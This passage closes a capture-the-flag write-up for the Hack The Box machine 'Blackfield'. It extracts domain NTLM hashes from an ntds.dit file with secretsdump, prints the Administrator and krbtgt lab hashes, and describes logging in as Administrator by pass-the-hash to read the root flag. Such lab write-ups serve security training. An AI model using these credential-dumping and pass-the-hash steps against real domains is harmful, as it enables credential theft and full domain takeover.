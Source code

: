 Now, back on our local machine, we can use secretsdump to dump the Administrator hash.

```bash
secretsdump.py -ntds ntds.dit -system system local -output hashes.txt
```

Now we can see all the hashes on the domain.

```bash
finlay@kali:~/htb/blackfield$ cat hashes.txt.ntds
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9e3d10cc537937888adcc0d918813a24:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
...
```

Finally, we can login to the box as Administrator using pass the hash.

![admin_shell](images/admin_shell.png)

## Root.txt

And we find the root flag in C:/Users/Administrator/Desktop

![admin_flag](images/admin_flag.png)